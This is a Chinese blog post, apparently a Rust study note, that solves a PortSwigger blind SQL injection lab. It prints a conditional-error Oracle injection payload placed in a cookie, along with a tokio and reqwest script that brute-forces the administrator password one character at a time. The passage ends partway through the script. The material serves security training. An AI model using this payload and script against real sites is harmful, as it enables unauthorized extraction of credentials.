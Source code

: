 ```yaml
---
title: "Rust笔记----rust并发小实践SQL注入爆破密码"
date: 2023-09-18T13:33:18+08:00
tags: ["tokio"]
categories: ["Rust"]
keywords: ["tokio","rust并发编程", "tokio实践", "rust并发实践"]
draft: false
---
```



在一个SQL注入的练习中，需要写一个脚本来获取administrator用户的密码，通过前期的处理，已经知道了密码的位数是20，密码包含0-9，a-z字符，注入的payload是：
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
这个注入的位置是在cookie中，这里的SQL注入利用的是，如果`SUBSTR(password,1,1)='a'` 密码的对应的每一位如果是对的，该请求就会返回http 500，否则返回http 200。
所以这里就需要从`SUBSTR(password,1,1)`， `SUBSTR(password,2,1)`....`SUBSTR(password,20,1)`,依次进行判断。

题目链接：<https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>

## 第一个版本

这个版本的代码是比较tokio的最简单的应用，通过两层循环一个一个判断处理，爆破密码花费了343秒(不同电脑可能存在差异)

```rust
use reqwest::{header::HeaderMap, Client};
use tokio::time::Instant;

const URL: &'static str = "https://0a1700d60435cf9280aef40d00c80023.web-security-academy.net/login";
const MAX_NUM: i32 = 20;

type Error = Box<dyn std::error::Error + Send + Sync>;
type Result<T> = std::result::Result<T, Error>;

fn get_payload() -> Vec<String> {
    let res = ('a'..='z')
        .chain('0'..='9')
        .map(|b| b.to_string())
        .collect::<Vec<_>>();
    res
}

async fn send_payload(i: i32, j: String) -> Result<String> {
    let client = Client::builder()
        .danger_accept_invalid_certs(true)
        .build()?;
    let mut headers = HeaderMap::new();
    let v = format!("TrackingId=HQzSS9kOLVoyj9Yh'||(SELECT CASE WHEN SUBSTR(password,{},1)='{}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';",i,j);
    headers.insert("Cookie", v.parse().unwrap());
    let status_code = client.get(URL).headers(headers).send().await?.status();
    if status_code == reqwest::StatusCode::INTERNAL_SERVER_ERROR {
        return Ok(j);
    }
    return Err("not found".into());
}

#[tokio::main]
async fn main() -> Result<()> {
    let start = Instant::now();
    let payload = get_payload();
    let mut password = "".to_string();
    for i in 1..=MAX_NUM {
```
